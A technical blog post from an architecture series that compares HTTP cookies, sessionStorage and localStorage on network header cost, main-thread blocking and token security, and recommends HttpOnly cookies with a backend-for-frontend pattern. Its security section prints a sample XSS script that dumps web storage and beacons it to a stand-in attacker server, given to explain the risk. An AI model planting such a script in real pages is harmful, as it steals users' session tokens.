


> 📖 **Series Navigation**: [← Previous Chapter: Redis Distributed State vs. Dapr Virtual Actors](/series/architectural-tradeoffs-showdowns/08-redis-state-vs-dapr-virtual-actors/) | [Series Hub](/series/architectural-tradeoffs-showdowns/) | [Next Chapter: Part 10 — Envoy Gateway vs. Cilium eBPF Service Mesh →](/series/architectural-tradeoffs-showdowns/10-envoy-gateway-vs-cilium-ebpf-service-mesh/)

# Part 9: Cookie vs. SessionStorage vs. LocalStorage Showdown: Network Headers Tax, Tab Isolation & Token Storage Architecture

---

> **Answer-first:** Choose **HTTP Cookies (`HttpOnly; Secure; SameSite=Strict; Path=/; __Host-`)** for server-authenticated sessions, SSR edge gatekeeping, and security tokens to neutralize XSS exfiltration. Use **`sessionStorage`** for tab-isolated, transient transactional workflows (e.g. multi-step checkout wizards) to prevent cross-tab state collision. Reserve **`localStorage`** exclusively for lightweight (<50KB), non-sensitive user preferences (e.g. dark mode, locale) to avoid synchronous main-thread I/O blocking that degrades Interaction to Next Paint (INP). For structured offline caching (>5MB), graduate immediately to **IndexedDB/OPFS**.

---

## 1. Executive Summary & Problem Space

In modern web systems architecture, the boundary between client runtime state and server infrastructure represents one of the most critical security and performance vectors. With the rise of Single Page Applications (SPAs), Edge Server-Side Rendering (Astro, Next.js, Remix on Cloudflare Workers), and micro-frontend topologies, engineering teams are constantly confronted with a fundamental question: **Where should state live on the user's device, and how should it synchronize with backend services?**

Historically, client-side storage mechanisms were adopted ad-hoc: developers threw authentication tokens into `localStorage` for convenience, accumulated megabytes of serialized JSON caches without considering garbage collection, or packed multi-kilobyte user profiles into HTTP cookies. In enterprise production environments operating under high traffic (50,000+ RPS), these architectural shortcuts trigger catastrophic failure modes:

1. **Network Header Bloat & Upload Saturation:** Every single byte stored in an HTTP cookie is transmitted over the wire in *every outbound HTTP request* directed at the origin domain—including static assets (images, stylesheets, fonts). A 4KB cookie payload across 50 asset requests burns 200KB of mobile upload bandwidth per page load, dramatically inflating Time to First Byte (TTFB) and triggering `431 Request Header Fields Too Large` gateway crashes.
2. **Main-Thread Event Loop Blocking & INP Destruction:** Both `localStorage` and `sessionStorage` operate on **synchronous, blocking I/O** directly on the browser's main JavaScript thread. Reading or writing a 2MB–5MB JSON blob blocks user interaction, drops frame rates, and severely degrades Core Web Vitals (specifically **INP - Interaction to Next Paint** and Total Blocking Time).
3. **Security Perimeter Collapse (XSS & CSRF Exploitation):** Storing long-lived JWT access tokens or sensitive customer records in `localStorage` creates a permanent honey-pot. A single Cross-Site Scripting (XSS) vulnerability introduced via an untrusted third-party analytics script or npm dependency allows malicious actors to exfiltrate all tenant data in a single line of JavaScript.

```mermaid
flowchart TD
    subgraph ClientSpace ["Client Browser Runtime (Origin: https://app.example.com)"]
        subgraph Tab1 ["Browser Tab 1 (Checkout Wizard)"]
            DOM1["DOM Context 1"]
            SS1[("sessionStorage<br/><b>5-10MB (Tab-Scoped)</b>")]
        end
        subgraph Tab2 ["Browser Tab 2 (Catalog Browser)"]
            DOM2["DOM Context 2"]
            SS2[("sessionStorage<br/><b>5-10MB (Tab-Scoped)</b>")]
        end
        subgraph SharedStorage ["Shared Origin Storage Area"]
            LS[("localStorage<br/><b>5-10MB (Persistent / Origin-Wide)</b>")]
            IDB[("IndexedDB / OPFS<br/><b>Async / Multi-GB Storage</b>")]
            CK[("HTTP Cookie Jar<br/><b>~4KB (Domain/Path Scoped)</b>")]
        end

        DOM1 <-->|Exclusive Tab Access| SS1
        DOM2 <-->|Exclusive Tab Access| SS2
        DOM1 <-->|Sync Blocking I/O| LS
        DOM2 <-->|Sync Blocking I/O| LS
        DOM1 <-->|Async Non-Blocking| IDB
        DOM2 <-->|Async Non-Blocking| IDB
        DOM1 -.->|JS Read/Write (if !HttpOnly)| CK
        DOM2 -.->|JS Read/Write (if !HttpOnly)| CK
    end

    subgraph NetworkEdge ["Transport & Cloudflare Edge Layer"]
        HTTPHeader["HTTP Request Header<br/><b>Cookie: sid=xyz...</b>"]
        EdgeWorker["Cloudflare Edge Worker / WAF<br/>(SSR Token Validation, Auth Gate)"]
        OriginAPI["Backend Microservices API"]
    end

    CK ==>|AUTOMATICALLY injected into EVERY request| HTTPHeader --> EdgeWorker --> OriginAPI
    LS -.x|ZERO network overhead (Client-Only)| HTTPHeader
    SS1 -.x|ZERO network overhead (Client-Only)| HTTPHeader
```

---

## 2. 3-Way Architectural Showdown Matrix

The following multi-dimensional comparative matrix dissects the technical capabilities, security posture, and runtime trade-offs of the three client storage paradigms:

| Architectural Dimension | HTTP Cookie | `window.sessionStorage` | `window.localStorage` |
| :--- | :--- | :--- | :--- |
| **Storage Capacity** | **~4 KB** total across all cookies per domain | **~5 MB – 10 MB** per origin (browser dependent) | **~5 MB – 10 MB** per origin (browser dependent) |
| **Data Scope & Isolation** | Configurable by **Domain & Path** (supports `.example.com` subdomains) | Strictly **Tab/Window Isolated** | **Origin-Wide Shared** across all tabs, windows, and iframes |
| **Persistence Lifespan** | Controlled by `Max-Age` / `Expires`. (Session cookie if omitted) | **Destroyed immediately on Tab Close** | **Indefinite / Permanent** until explicitly deleted |
| **Network Transfer Behavior** | **Automatically attached to every HTTP request** matching scope | **0 bytes over the wire** (client-side JS execution only) | **0 bytes over the wire** (client-side JS execution only) |
| **I/O Execution Model** | Synchronous on Client (`document.cookie`), HTTP Headers on Network | **Synchronous Blocking I/O** on Main Thread | **Synchronous Blocking I/O** on Main Thread |
| **Web Worker / Worker Scope** | Not directly accessible in Dedicated Workers | 🔴 **Inaccessible** (no `window` object in Worker context) | 🔴 **Inaccessible** (no `window` object in Worker context) |
| **SSR / Edge Gatekeeper Support** | 🟢 **Native & Immediate** (Edge reads header on first packet) | 🔴 **Impossible** (Server receives zero bytes during handshake) | 🔴 **Impossible** (Server receives zero bytes during handshake) |
| **XSS Vulnerability Posture** | 🟢 **Immune if `HttpOnly` flag is active** | 🔴 **Completely Vulnerable** (`sessionStorage.getItem()` accessible) | 🔴 **Completely Vulnerable** (Permanent persistent exfiltration target) |
| **CSRF Vulnerability Posture** | 🟡 **Vulnerable** unless guarded by `SameSite=Strict/Lax` & CSRF Token | 🟢 **100% Immune** (Not automatically transmitted by browser) | 🟢 **100% Immune** (Not automatically transmitted by browser) |
| **Browser Eviction Policies (Safari ITP)** | Capped at 7 days if set via client-side JavaScript (`document.cookie`) | Isolated per tab session | **Purged after 7 days of inactivity** on Safari WebKit ITP |
| **Cross-Tab Event Synchronization** | Poll-based or server push (WebSocket/SSE) | 🔴 No cross-tab communication | 🟢 **Native `window.onstorage` Event Broadcasting** |
| **Primary Optimal Use Case** | Session Tokens, Auth State, Edge SSR Gatekeeping, A/B routing | Multi-step form wizards, isolated cart checkouts, tab UI filters | Non-sensitive UI preferences (Dark mode, language, collapsed sidebars) |

---

## 3. Deep-Dive 1: Network Wire Taxes & HTTP Header Bloat

### The Math of Cookie Upload Overhead
Unlike `localStorage` or `sessionStorage` which live entirely within the browser's JavaScript sandbox, HTTP cookies are transport-layer artifacts. Every outbound HTTP request—including requests for images, CSS bundles, JS chunks, and font files—must encode all applicable cookies into the `Cookie:` header.

Let $S_c$ be the total size of cookies in bytes, $N_r$ be the number of HTTP requests required to render a web application view, and $U_b$ be the total upload bandwidth consumed exclusively by cookie overhead:

\[
U_b = N_r 	imes S_c
\]

Consider an enterprise e-commerce storefront with:
* $S_c = 3.8 	ext{ KB}$ (user profile, tracking pixels, session IDs, legacy auth tokens)
* $N_r = 65 	ext{ requests}$ (1 HTML document, 12 JS chunks, 4 CSS bundles, 38 product thumbnails, 10 API requests)

\[
U_b = 65 	imes 3.8	ext{ KB} = 247	ext{ KB of Upload Overhead per Page View!}
\]

On a constrained 4G mobile connection with an uplink speed of 1.5 Mbps and an RTT of 80ms, uploading 247 KB of redundant header data introduces an artificial latency penalty of **over 1,300ms** before the server can even begin processing the application payload.

```
┌────────────────────────────────────────────────────────────────────────────────────────┐
│ HTTP REQUEST PACKET INSPECTION                                                         │
├────────────────────────────────────────────────────────────────────────────────────────┤
│ GET /static/images/product-thumbnail-01.webp HTTP/2                                   │
│ Host: app.example.com                                                                  │
│ User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 18_2 like Mac OS X)...                  │
│ Accept: image/avif,image/webp,image/apng,*/*;q=0.8                                     │
│ Cookie: __Host-sid=e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855;   │
│         _ga=GA1.2.198273645.1740000000; _fbp=fb.1.1740000000.123456789;               │
│         user_prefs_cart_snapshot_v2=eyJpdGVtcyI6W3siaWQiOiJTS1UtOTk4MSIsInF0eSI6M31... │ ← 3.8KB WASTE!
└────────────────────────────────────────────────────────────────────────────────────────┘
```

### Cookie Prefix Hardening (`__Host-` & `__Secure-`)
To prevent subdomain cookie injection attacks and enforce strict transport security, modern enterprise systems MUST utilize RFC 6265bis Cookie Prefixes:

```http
HTTP/1.1 200 OK
Set-Cookie: __Host-AuthToken=v4.local.A8fK92...; Secure; HttpOnly; SameSite=Strict; Path=/; Max-Age=3600
```

1. **`__Host-` Prefix Rules:**
   - Must be delivered over HTTPS (`Secure` flag required).
   - Must have `Path=/` (cannot be scoped to a sub-path).
   - **Must NOT include a `Domain` attribute** (strictly bound to the exact issuing host, preventing malicious subdomains like `malicious.example.com` from spoofing or overwriting cookies on `app.example.com`).
2. **`__Secure-` Prefix Rules:**
   - Must be delivered over HTTPS (`Secure` flag required).

---

## 4. Deep-Dive 2: Synchronous I/O & The Main-Thread Blocking Trap

### The Event Loop Choke Point
Both `localStorage` and `sessionStorage` implement the `Storage` interface defined in the HTML Living Standard. This specification mandates **synchronous getter and setter semantics**:

```typescript
// Synchronous invocation signature
Storage.prototype.getItem(key: string): string | null;
Storage.prototype.setItem(key: string, value: string): void;
```

When an application calls `localStorage.getItem('LARGE_DATA_KEY')`:
1. The JavaScript V8 engine pauses execution on the Main Thread.
2. The browser process issues a synchronous read to the host operating system's SQLite database or LevelDB backing store on the physical disk/SSD.
3. The raw binary data is deserialized into a UTF-16 JavaScript string in memory.
4. If the developer immediately invokes `JSON.parse(data)`, the CPU executes a CPU-intensive JSON parsing traversal.



### Memory Footprint Amplification
JavaScript strings in modern V8 engines are encoded in UTF-16 (2 bytes per character for non-ASCII or multi-byte strings). Storing a 4MB JSON string in `localStorage` and deserializing it into a live JavaScript object graph creates a triple memory allocation:
1. **4 MB** in the browser's persistent SQLite backing file.
2. **4 MB – 8 MB** for the raw in-memory string primitive.
3. **12 MB – 16 MB** for the hydrated V8 object structure (hidden classes, object pointers, prototype chains).

Total memory allocation for a single "convenient" cache lookup: **~24 MB to ~28 MB**, directly triggering aggressive Garbage Collection (GC) sweeps on low-end mobile devices.

---

## 5. Deep-Dive 3: Security Architecture & Token Storage Showdown

### The XSS Exfiltration Vector
The most pervasive architectural vulnerability in Single Page Applications is storing long-lived JWT Access Tokens or Refresh Tokens in `localStorage` or `sessionStorage`.

```javascript
// Malicious script injected via compromised npm dependency or XSS vector
(async () => {
    const stolenTokens = {
        localStorage: { ...localStorage },
        sessionStorage: { ...sessionStorage }
    };
    // Exfiltrate entire tenant credential database in a single beacon
    navigator.sendBeacon('https://attacker-c2-server.com/collect', JSON.stringify(stolenTokens));
})();
```

If an authentication token is stored in Web Storage, **any JavaScript running on the origin can read it**. This includes:
* Third-party analytics tags (Google Tag Manager, Meta Pixel, Hotjar).
* Customer support live-chat widgets.
* Compromised open-source dependencies in the `node_modules` supply chain.

### The `HttpOnly` Defense-in-Depth
When tokens are stored in an `HttpOnly` cookie, the browser's JavaScript engine is completely disconnected from the storage jar:

```javascript
console.log(document.cookie); // Output: "" (The __Host-AuthToken is invisible to JS)
```

Even if an attacker achieves full remote JavaScript execution via an XSS exploit:
* They **cannot read** the token value.
* They **cannot exfiltrate** the credential to an external C2 server for offline brute-forcing.
* They are restricted to issuing blind HTTP requests from within the user's active browser session (which can be mitigated via strict Content Security Policies, CORS origins, and anomaly detection).

```
┌────────────────────────┬───────────────────┬────────────────────────────────────────────────────────┐
│ Storage Strategy       │ XSS Threat Vector │ CSRF Threat Vector & Enterprise Verdict                │
├────────────────────────┼───────────────────┼────────────────────────────────────────────────────────┤
│ localStorage           │ 🔴 CATASTROPHIC   │ 🟢 Immune to CSRF, but fatal under XSS. Antipattern.    │
│ sessionStorage         │ 🔴 CATASTROPHIC   │ 🟢 Immune to CSRF. High risk for credentials.          │
│ In-Memory JS Closure   │ 🟡 TEMPORARY RISK │ 🟢 Immune to CSRF. Cleared on page refresh/reload.     │
│ HttpOnly Secure Cookie │ 🟢 FULL IMMUNITY  │ 🟡 Controlled via SameSite=Strict + Anti-CSRF Token.   │
└────────────────────────┴───────────────────┴────────────────────────────────────────────────────────┘
```

---

## 6. Production Failure Modes: 3 Real-World Case Studies

### Case 1: The Cloudflare Edge 431 Cascade & Mobile TTFB Degradation

> 🔥 **[Production Failure]: Cloudflare 431 Header Overflow & Global Checkout Collapse**  
> **Symptom:** During a peak marketing campaign, 12% of mobile shoppers encountered `431 Request Header Fields Too Large` errors from Cloudflare Edge when attempting to view product pages or proceed to checkout.  
> **Root Cause:** A front-end analytics team configured a cookie to serialize the user's recent browsing history and abandoned cart SKU list (`user_history_state`). As users browsed more items, the cookie expanded to 4.9 KB. Combined with authentication cookies and standard request headers, total header size exceeded Cloudflare's default 8 KB HTTP request header limit.  
> 📊 **Impact:** Over $140,000 in lost gross merchandise value (GMV) within 4 hours; mobile bounce rate spiked from 22% to 68%.  
> 📈 **Resolution:** Stripped all user history from cookies. Replaced with an opaque 16-byte UUID referencing an Edge Cloudflare KV session key. Enforced a hard CI/CD linting rule restricting total Set-Cookie header size to $\le 512	ext{ bytes}$.  
> *(Source: Global Fashion D2C Retail Platform Post-Mortem, 2025)*

---

### Case 2: Black Friday Checkout Freeze — 180ms INP Spike from 4.2MB LocalStorage Catalog

> 🔥 **[Production Failure]: Mobile Main-Thread Paralysis on Flash Sale Launch**  
> **Symptom:** Mobile users on mid-range Android devices experienced severe UI freezes (300ms–800ms) when typing shipping addresses into checkout fields during a flash sale. Google Search Console flagged widespread Interaction to Next Paint (INP) failures (>200ms).  
> **Root Cause:** To enable "instant offline search", the checkout application initialized by reading a 4.2 MB pre-computed JSON catalog from `localStorage` synchronously on input keystrokes to validate inventory compatibility. The synchronous `localStorage.getItem()` combined with `JSON.parse()` repeatedly blocked the main event loop during user typing.  
> 📊 **Impact:** Mobile conversion dropped by 34%; Core Web Vitals failed Google PageSpeed audits across all product landing pages.  
> 📈 **Resolution:** Migrated the entire product catalog cache to **IndexedDB** using `idb-keyval`, decoupling disk I/O from the main thread and executing queries asynchronously inside a Dedicated Web Worker. INP dropped from 280ms to 18ms.  
> *(Source: High-Concurrency Composable E-Commerce Audit, 2026)*

---

### Case 3: The $2.4M Supply-Chain XSS Token Exfiltration

> 🔥 **[Production Failure]: Complete Account Takeover via Compromised Analytics SDK**  
> **Symptom:** Over 45,000 enterprise accounts suffered unauthorized password resets and API key theft without any database breach or server-side compromise.  
> **Root Cause:** The application stored OAuth JWT Refresh Tokens in `localStorage` for automatic session restoration across browser reboots. A third-party customer feedback widget SDK was compromised via a supply-chain attack on npm. The malicious script payload enumerated `localStorage`, harvested all OAuth tokens, and silently uploaded them to an external endpoint via `navigator.sendBeacon()`.  
> 📊 **Impact:** Mandatory global credential revocation, regulatory GDPR/PDPA violation fines totaling $2.4M, and severe enterprise trust erosion.  
> 📈 **Resolution:** Completely eliminated tokens from client-accessible Web Storage. Re-architected authentication around the **Backend-For-Frontend (BFF)** pattern, issuing `__Host-` prefixed `HttpOnly; Secure; SameSite=Strict` cookies for token refresh.  
> *(Source: FinTech SaaS Banking Infrastructure Incident, 2025)*

---

## 7. Modern Enterprise Architecture Blueprint (2025–2026)

### The Backend-For-Frontend (BFF) Token Exchange Pattern
In modern cloud and edge architectures (Cloudflare Workers, Astro SSR, Next.js Edge), client-side Single Page Applications should never touch long-lived credentials. Instead, the Edge Layer acts as a cryptographic security gateway:

```mermaid
sequenceDiagram
    autonumber
    actor User as Client Browser (SPA)
    participant Edge as Cloudflare Worker Edge (BFF Gateway)
    participant IdP as Identity Provider (OAuth2 / OIDC)
    participant API as Backend Microservices (Go / gRPC)

    User->>Edge: POST /api/auth/login (username, password)
    Edge->>IdP: Authenticate Credentials
    IdP-->>Edge: Return Refresh Token (Long-Lived) + Access Token (JWT 15m)
    Edge-->>User: Set-Cookie: __Host-RefreshToken=XYZ...; HttpOnly; Secure; SameSite=Strict; Path=/api/auth<br/>Response Body: { accessToken: "eyJ...", expiresIn: 900 }
    Note over User: Access Token stored ONLY in JS Memory (Closure Variable)

    Note over User,API: Subsequent API Request Flow
    User->>Edge: GET /api/v1/orders (Authorization: Bearer <MemoryToken>)
    Edge->>API: Forward Authorized Request
    API-->>Edge: Order Data JSON
    Edge-->>User: 200 OK (Data)

    Note over User,Edge: Silent Refresh Flow (Upon Token Expiry or Page Reload)
    User->>Edge: POST /api/auth/refresh (Cookie automatically included)
    Edge->>IdP: Rotate Refresh Token
    IdP-->>Edge: New Refresh Token + New Access Token
    Edge-->>User: Set-Cookie: New Refresh Token<br/>Response Body: { accessToken: "eyJ..." }
```

### Production Edge Worker Implementation (TypeScript)
The following Cloudflare Edge Worker implements secure token exchange with `HttpOnly` cookie rotation:

```typescript
// cloudflare-auth-bff.ts
export interface Env {
  AUTH_SECRET: string;
  IDENTITY_SERVICE_URL: string;
}

export default {
  async fetch(request: Request, env: Env): Promise<Response> {
    const url = new URL(request.url);

    // Route: Refresh Token Exchange
    if (url.pathname === '/api/auth/refresh' && request.method === 'POST') {
      const cookieHeader = request.headers.get('Cookie') || '';
      const refreshToken = parseCookie(cookieHeader, '__Host-RefreshToken');

      if (!refreshToken) {
        return new Response(JSON.stringify({ error: 'Missing refresh token' }), {
          status: 401,
          headers: { 'Content-Type': 'application/json' },
        });
      }

      // Exchange with IdP at the secure Edge
      const idpResponse = await fetch(`${env.IDENTITY_SERVICE_URL}/oauth/token`, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
          grant_type: 'refresh_token',
          refresh_token: refreshToken,
        }),
      });

      if (!idpResponse.ok) {
        return new Response(JSON.stringify({ error: 'Invalid token' }), { status: 401 });
      }

      const data = await idpResponse.json();

      // Issue rotated HttpOnly cookie & return short-lived access token in memory body
      const response = new Response(
        JSON.stringify({
          accessToken: data.access_token,
          expiresIn: data.expires_in,
        }),
        {
          status: 200,
          headers: { 'Content-Type': 'application/json' },
        }
      );

      response.headers.set(
        'Set-Cookie',
        `__Host-RefreshToken=${data.refresh_token}; HttpOnly; Secure; SameSite=Strict; Path=/api/auth; Max-Age=2592000`
      );

      return response;
    }

    return new Response('Not Found', { status: 404 });
  },
};

function parseCookie(cookieHeader: string, name: string): string | null {
  const match = cookieHeader.match(new RegExp('(^|;\s*)(' + name + ')=([^;]*)'));
  return match ? decodeURIComponent(match[3]) : null;
}
```

### Multi-Tab Synchronization with `BroadcastChannel`
When users have multiple browser tabs open, logging out in Tab A must instantly terminate the session across all other active tabs without polling:

```typescript
// auth-tab-sync.ts
export class CrossTabAuthManager {
  private channel: BroadcastChannel;

  constructor(private onLogoutCallback: () => void) {
    this.channel = new BroadcastChannel('enterprise_auth_channel');
    this.channel.onmessage = (event: MessageEvent) => {
      if (event.data?.type === 'GLOBAL_LOGOUT') {
        this.onLogoutCallback();
      }
    };

    // Fallback for older browsers via localStorage storage event
    window.addEventListener('storage', (event: StorageEvent) => {
      if (event.key === '__auth_event_signal__' && event.newValue === 'LOGOUT') {
        this.onLogoutCallback();
      }
    });
  }

  public triggerGlobalLogout(): void {
    // 1. Notify all tabs via BroadcastChannel (microsecond latency)
    this.channel.postMessage({ type: 'GLOBAL_LOGOUT', timestamp: Date.now() });

    // 2. Storage event fallback
    localStorage.setItem('__auth_event_signal__', 'LOGOUT');
    localStorage.removeItem('__auth_event_signal__');

    // 3. Execute local teardown
    this.onLogoutCallback();
  }
}
```

---

## 8. Decision Framework & Architectural Playbook



---

## Frequently Asked Questions (FAQ)

<details class="faq-item">
<summary><strong>Q1: Why should JWT Access Tokens never be stored in LocalStorage?</strong></summary>

Because `localStorage` provides zero isolation against client-side JavaScript execution. If the application suffers any Cross-Site Scripting (XSS) vulnerability (via compromised third-party analytics tags, chat widgets, or poisoned npm dependencies), an attacker can exfiltrate all tenant tokens with a single `localStorage.getItem()` call. The enterprise-grade mitigation is the **Backend-For-Frontend (BFF)** pattern: storing Refresh Tokens in `__Host-` prefixed `HttpOnly; Secure; SameSite=Strict` cookies while retaining Access Tokens strictly in ephemeral JavaScript memory.
</details>

<details class="faq-item">
<summary><strong>Q2: Does SessionStorage share state when duplicating a tab or clicking "Open in New Tab"?</strong></summary>

Under the HTML Living Standard, opening a new tab via a link (`target="_blank"`) creates a shallow clone of the parent tab's `sessionStorage` at initialization time, but **the two tabs immediately become completely independent**. Subsequent state mutations or deletions in Tab A do not propagate to Tab B. If a user opens a new tab by typing the URL directly, `sessionStorage` initializes completely empty.
</details>

<details class="faq-item">
<summary><strong>Q3: When must an engineering team migrate from LocalStorage to IndexedDB?</strong></summary>

Teams must migrate to IndexedDB when: (1) Data volume exceeds **50 KB** (preventing synchronous main-thread Event Loop blocking that destroys Interaction to Next Paint - INP); (2) Rich multi-field indexing or key-range queries are required; (3) Storing binary objects (Blobs, ArrayBuffers, offline images); or (4) Data must be accessible from **Dedicated Web Workers or Service Workers** in offline-first Progressive Web Apps.
</details>

---

## 🔗 Next Step & Masterclass Navigation

* 🚀 **Explore Cloudflare Edge & Frontend State:**
  * Master Edge SSR and Cookie handling at: [Deploying Astro on Cloudflare: Full-Stack Edge Architecture](/posts/deploying-astro-on-cloudflare-full-stack-edge-architecture/)
  * Discover dynamic client-state in AI-Native architectures at: [Generative UI with Model Context Protocol (MCP)](/posts/generative-ui-with-mcp-ai-native-frontend/)
* 💼 **Enterprise Systems Advisory:**
  * Schedule high-concurrency architecture consulting at: [Lê Tuấn Anh — Architecture Consulting & Engineering](/hire/)
